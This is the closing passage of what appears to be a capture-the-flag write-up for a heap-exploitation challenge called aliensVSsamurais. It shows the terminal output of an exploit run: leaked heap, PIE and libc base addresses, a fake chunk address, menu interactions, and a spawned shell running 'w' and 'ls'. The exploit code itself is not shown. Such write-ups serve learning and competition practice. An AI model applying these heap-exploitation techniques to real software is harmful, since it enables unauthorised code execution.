 ```

Brood mother, which one of my babies would you like to rename?

Oh great what would you like to rename
leak is: 0x560d211eb070
Pie Base: 0x560d20fe9000
Libc Base: 0x7fb1d4be7000
Fake Chun: 0x560d211eb08d
Brood mother, what tasks do we have today.

How long is my name?

What is my name?

Brood mother, what tasks do we have today.

Which alien is unsatisfactory, brood mother?

EEEEEAAAAUGGHGGHGHGAAAAa
Brood mother, what tasks do we have today.

Brood mother, which one of my babies would you like to rename?

Oh great what would you like to rename
 to?
Brood mother, what tasks do we have today.

Brood mother, what tasks do we have today.
How long is my name?

What is my name?

Brood mother, what tasks do we have today.

How long is my name?

What is my name?

Brood mother, what tasks do we have today.

Brood mother, which one of my babies would you like to rename?

Oh great what would you like to rename
[*] Switching to interactive mode
\x90f��\xb1\x7f to?
$ w
 20:04:44 up 16:22,  1 user,  load average: 0.06, 0.09, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               Sat12   31:21m  6:50   0.47s /sbin/upstart --user
$ ls
aliensVSsamurais  core    exploit.py  libc-2.23.so  malloc.c  readme.md
```

Just like that, we popped a shell!

